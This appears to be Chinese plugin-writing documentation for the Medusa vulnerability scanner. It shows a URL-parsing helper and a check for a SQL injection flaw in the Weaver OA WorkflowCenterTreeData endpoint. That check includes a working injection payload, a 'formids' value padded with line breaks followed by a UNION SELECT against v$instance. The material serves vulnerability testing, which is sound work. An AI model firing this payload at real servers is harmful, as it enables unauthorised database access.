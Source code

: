 
### UrlProcessing函数

对`url`进行处理

```python
def UrlProcessing(url):
    if url.startswith("http"):#判断是否有http头，如果没有就在下面加入
        res = urllib.parse.urlparse(url)
    else:
        res = urllib.parse.urlparse('http://%s' % url)
    return res.scheme, res.hostname, res.port
```

函数对各个部分进行处理，最终我们只需要取得` scheme` ,` port` , ` hostname` 的值返回给调用函数就行

该函数在`2.7`插件编写规范版本中已写入`ClassCongregation`类中，调用只需要如下操作即可

```python
使用方法一：单独导入
from ClassCongregation import UrlProcessing
scheme, url, port = UrlProcessing().result(Url)
使用方法二：直接导入
import ClassCongregation
scheme, url, port = ClassCongregation.UrlProcessing().result(Url)
```



### medusa函数

```python
def medusa(Url,RandomAgent,ProxyIp):

    scheme, url, port = UrlProcessing().result(Url)
    if port is None and scheme == 'https':
        port = 443
    elif port is None and scheme == 'http':
        port = 80
    else:
        port = port
    try:
        payload = "/mobile/browser/WorkflowCenterTreeData.jsp?node=wftype_1&scope=2333"
        payload_url = scheme + "://" + url +":"+ str(port)+ payload


        headers = {
            'User-Agent': RandomAgent,
            'Content-Type': 'application/x-www-form-urlencoded',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'
        }

        s = requests.session()
        resp = s.post(payload_url,
                      data={'formids': '11111111111)))' + '\x0a\x0d' * 360 + 'union select NULL,instance_name from '
                            'v$instance order by (((1'},
                      headers=headers, timeout=6, verify=False)
        con = resp.text
        code = resp.status_code
        if code == 200 and con.find('''"draggable":''') != -1 and con.find(
                '''"checked":''') != -1 and con.find('''"id":''') != -1 and con.find(
                '''"text":''') != -1:
            Medusa = "{}存在泛微OA_WorkflowCenterTreeData接口注入漏洞\r\n 验证数据:\r\nUrl:{}\r\nPayload:{}\r\n".format(url,payload_url,con)
            _t=VulnerabilityInfo(Medusa)
            web=VulnerabilityDetails(_t.info)
            web.High() # serious表示严重，High表示高危，Intermediate表示中危，Low表示低危
```